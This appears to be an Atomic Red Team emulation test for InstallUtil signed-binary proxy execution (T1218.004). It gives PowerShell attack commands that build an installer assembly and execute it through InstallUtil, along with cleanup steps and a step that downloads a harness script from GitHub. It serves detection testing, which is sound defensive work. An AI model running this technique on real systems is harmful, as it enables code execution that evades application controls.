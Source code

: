 #### Attack Commands: Run with `powershell`! 


```powershell
# Import the required test harness function, Invoke-BuildAndInvokeInstallUtilAssembly
. "#{test_harness}"

$InstallerAssemblyDir = "#{assembly_dir}"
$InstallerAssemblyFileName = "#{assembly_filename}"
$InstallerAssemblyFullPath = Join-Path -Path $InstallerAssemblyDir -ChildPath $InstallerAssemblyFileName

$CommandLine = "/logfile= /logtoconsole=false `"$InstallerAssemblyFullPath`""
$ExpectedOutput = 'Constructor_'

$TestArgs = @{
    OutputAssemblyDirectory = $InstallerAssemblyDir
    OutputAssemblyFileName = $InstallerAssemblyFileName
    InvocationMethod = '#{invocation_method}'
    CommandLine = $CommandLine
}

$ActualOutput = Invoke-BuildAndInvokeInstallUtilAssembly @TestArgs -MinimumViableAssembly

if ($ActualOutput -ne $ExpectedOutput) {
    throw @"
InstallHelper method execution test failure. Installer assembly execution output did not match the expected output.
Expected: $ExpectedOutput
Actual: $ActualOutput
"@
}
```

#### Cleanup Commands:
```powershell
$InstallerAssemblyDir = "#{assembly_dir}"
$InstallerAssemblyFileName = "#{assembly_filename}"
$InstallerAssemblyFullPath = Join-Path -Path $InstallerAssemblyDir -ChildPath $InstallerAssemblyFileName
Remove-Item -Path $InstallerAssemblyFullPath -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: InstallUtil test harness script must be installed at specified location (#{test_harness})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{test_harness}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{test_harness}") -ErrorAction ignore | Out-Null
Invoke-WebRequest 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.004/src/InstallUtilTestHarness.ps1' -OutFile "#{test_harness}"
```
